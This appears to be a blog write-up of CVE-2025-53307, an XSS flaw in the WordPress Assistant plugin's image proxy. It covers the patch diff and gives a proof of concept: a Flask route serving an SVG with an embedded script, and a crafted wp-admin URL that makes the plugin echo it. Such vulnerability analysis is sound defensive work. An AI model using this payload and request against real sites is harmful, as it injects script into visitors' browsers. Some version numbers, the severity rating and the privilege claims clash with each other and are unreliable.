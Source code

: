 # CVE-2025-53307 Analysis & POC


<!--more-->

The vulnerability exists in the **Assistant** plugin for WordPress prior to version **3.6.2**. This could allow an attacker to inject malicious code (e.g., redirect scripts, ads, or other HTML payloads) into the website, which would execute when visitors open the page.

* **CVE ID**: [CVE-2025-53307](https://www.cve.org/CVERecord?id=CVE-2025-53307)
* **Product**: [WordPress Assistant Plugin](https://wordpress.org/plugins/assistant/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.5.2
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Assistant**: v1.5.2 (vulnerable) and v1.5.3 (patched)
* **Diff tool**: **meld** or any tool capable of comparing two versions

## Analysis

The application displays user-provided image content directly via a URL **without validating or fully checking the MIME type**. This allows an attacker to supply a file disguised as an image, which when processed by the browser, executes malicious code → resulting in an XSS vulnerability.

### Patch Diff

Use any diff tool to compare the vulnerable version and the patch.

![Patch Diff](patch_diff.png "Diff between vulnerable and patched version")

In this case, there are significant differences between the two versions. For easier tracking, the [change log](https://wordpress.org/plugins/assistant/#developers) identifies where the XSS patch was applied:

```
Changelog
1.5.3 (2025-09-08)

- Changes to support the integration of Assistant in Beaver Builder version 2.10
- Fixed dark mode issues on the Home app and sidebar.
- Security: Fixed a potential XSS vulnerability in the "image proxy"
```

👉 The vulnerability is located in **backend/src/Hooks/ImageProxy.php**. Observing the differences between the two versions:

![Patch Diff 1](patch_diff1.png "Differences in the render_image function of ImageProxy.php")

The changes occur in the `render_image` function, which:

* Accepts a URL parameter from the query string `($_GET['url'])`.
* Sends a request from the server to that URL to fetch the content.
* Prevents **SSRF** using `wp_safe_remote_get`.
* If the content has a **Content-Type** header starting with `image/`, then:

  * Sends the same **Content-Type** header back to the client.
  * Echoes the file content to the browser.
* The browser displays the image **not directly from the original source but through the WordPress server**.

> SVG files also have a **Content-Type** starting with `image/` and can contain embedded JavaScript → XSS can occur.

The patch added an additional check to verify the **actual MIME type** of the file to prevent XSS via SVG or maliciously disguised files.

```php
$filesystem = self::filesystem();
$tmpfile    = tempnam( '/tmp', 'assistant' );
$filesystem->put_contents( $tmpfile, $body );
$validimage = wp_get_image_mime( $tmpfile );
$filesystem->delete( $tmpfile );

if ( ! $validimage ) {
    return false;
}
```

[`wp_get_image_mime()`](https://github.com/WordPress/wordpress-develop/blob/6.8.2/src/wp-includes/functions.php#L3330-L3417) uses internal image processing (based on the binary data of the file) to determine the actual MIME type.

If the result is not a valid image → returns **false**.

### How it works

In the `__construct` of the `ImageProxy` class, the `render_image()` method is called via the `'init'` action hook. The `'init'` hook runs early in WordPress loading, after core objects are initialized but before output is sent to the browser.

`render_image` is called only if the current user has permission to edit other users' posts and the `$_GET['fl_asst_image_proxy']` parameter exists.

👉 Accessing `/wp-admin/?fl_asst_image_proxy=value1&url=http://yoursite/image-path` triggers `render_image` and returns the image content to the browser.

## Exploit

### Detect XSS

Create a simple [web page](https://github.com/w41bu1/w41test) returning an SVG containing an XSS payload:

```py
from flask import Flask, Response

app = Flask(__name__)

@app.route('/')
def home():
    return 'Hello, World!'

@app.route('/svg')
def about():
    svg = """<?xml version="1.0" encoding="UTF-8"?>
    <svg xmlns="http://www.w3.org/2000/svg">
        <script>alert(document.domain)</script>
    </svg>"""
    return Response(svg, mimetype="image/svg+xml")
```

Send a request with the **url parameter** pointing to `https://yoursite/svg`:

```
http://localhost/wp-admin/?fl_asst_image_proxy=abc&url=https://yoursite/svg
```

👉 Successful for `Unauthenticated` because as long as the user has permission, accessing the URL triggers XSS in the victim’s browser. The attacker does not need to log in.

![Detect](detect.png "SVG with XSS payload displayed via image proxy")

## Conclusion

The **CVE-2025-53307** vulnerability in the WordPress Assistant plugin (**<= v1.5.2**) allows XSS via `render_image()` because it does not validate the actual file **MIME type**. Version **v1.5.3** patched this by verifying the file content before returning it to the browser.

**Key takeaways**:

* Do not trust the **Content-Type header** from **HTTP responses**.
* Always validate the **actual MIME type** of the file.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Assistant Plugin <= 1.5.2 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/assistant/vulnerability/wordpress-assistant-plugin-1-5-2-cross-site-scripting-xss-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-03-cve-2025-53307/  

